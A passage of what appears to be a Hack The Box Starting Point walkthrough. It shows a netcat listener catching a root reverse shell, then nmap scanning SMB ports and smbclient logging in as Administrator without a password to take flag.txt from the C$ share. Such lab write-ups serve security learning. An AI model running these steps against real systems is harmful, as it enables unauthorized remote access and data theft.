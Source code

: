    Create socket listener to listen the connection back before running above command, then upgrade the shell

   ```
   nc -lvnp 1337
   ```

5. Now got a reverse shell with root privilege back, the flag is in `/root/flag.txt`

# 1.10 Tactics

1. Run `nmap` scan on port 135, 139, 445 (result from running `rustscan`), `-Pn` would be used when firewall blocked ping probes, it can also be used for stealthy scan

   ```bash
   nmap -sCV <Target_IP> -p 135,139,445
   ```

   ![](../assets/img/htb-starting-point/84.png)

2. Port 445 SMB service is running, let's list the administrative share. Please specifiy the username **Administrator**, which doesn't need a password.

   ```bash
   smbclient -L \\\\<Target_IP>\\ -U Administrator
   ```

   ![](../assets/img/htb-starting-point/85.png)

3. Now go to the `C$` Disk to screen through the flag. The flag is usually at the desktop. Connect to the SMB share by

   ```bash
   smbclient //<Target_IP>/C$ -U Administrator
   ```

4. The flag can be get at and by `smb: \users\administrator\desktop\> get flag.txt`
